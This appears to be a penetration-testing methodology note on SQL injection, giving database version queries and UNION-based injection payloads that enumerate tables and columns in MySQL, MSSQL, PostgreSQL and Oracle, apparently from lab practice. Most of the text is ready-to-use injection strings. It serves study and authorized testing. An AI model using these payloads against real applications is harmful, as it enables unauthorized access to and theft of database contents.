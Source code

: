 # Methodology Examining the database
#METHODOLOGY
#DATABASEENUM 

## Database type and version

Try to obtain the database banner or version, the query/payload to use depends on the database software.

Database type| Query
------------ | ------------
Microsoft, MySQL|`SELECT @@version`
Oracle|`SELECT * FROM v$version`
PostgreSQL|`SELECT version()`

These queries can be used on an `UNION` attack to craft an adequate payload to retrieve information.

###  UNION SQL injection payload for type and version

The number of columns on the payload and which can hold string data depends on the results of the [[Methodology UNION attacks]] in this case two result columns are assumed.

Database type| Query
------------ | ------------
Microsoft, MySQL|`' UNION SELECT @@version,NULL--`
Oracle|`' UNION SELECT banner,NULL FROM v$version--`
PostgreSQL|`' UNION SELECT version(),NULL--`

<hr>

# Listing contents of the database

## Non- Oracle databases

### Tables

The tables enumeration is based on the `information_schema.tables` table, using the following query:

```SQL
SELECT * FROM information_schema.tables
```

#### UNION SQL injection payload to get tables names

The number of columns on the payload and which can hold string data depends on the results of the [[Methodology UNION attacks]] in this case two result columns are assumed.

```SQL
' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```

### Columns

The tables enumeration is based on the `information_schema.columns` table, using the following query:

```SQL
SELECT * FROM information_schema.columns WHERE table_name = '$TABLE'
```

#### UNION SQL injection payload to get columns names

The number of columns on the payload and which can hold string data depends on the results of the [[Methodology UNION attacks]] in this case two result columns are assumed.

```SQL
' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = '$TABLE NAME$'--
```

<hr>

## Oracle databases

### Tables

The tables enumeration is based on the `all_tables` table, using the following query:

```SQL
SELECT * FROM all_tables
```

#### UNION SQL injection payload to get tables names

The number of columns on the payload and which can hold string data depends on the results of the [[Methodology UNION attacks]] in this case two result columns are assumed.

```SQL
' UNION SELECT TABLE_NAME,NULL FROM all_tables--
```

### Columns

The tables enumeration is based on the `all_tab_columns` table, using the following query:

```SQL
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

#### UNION SQL injection payload to get tables names

The number of columns on the payload and which can hold string data depends on the results of the [[Methodology UNION attacks]] in this case two result columns are assumed.

```SQL
' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_PGXVFU'--
```

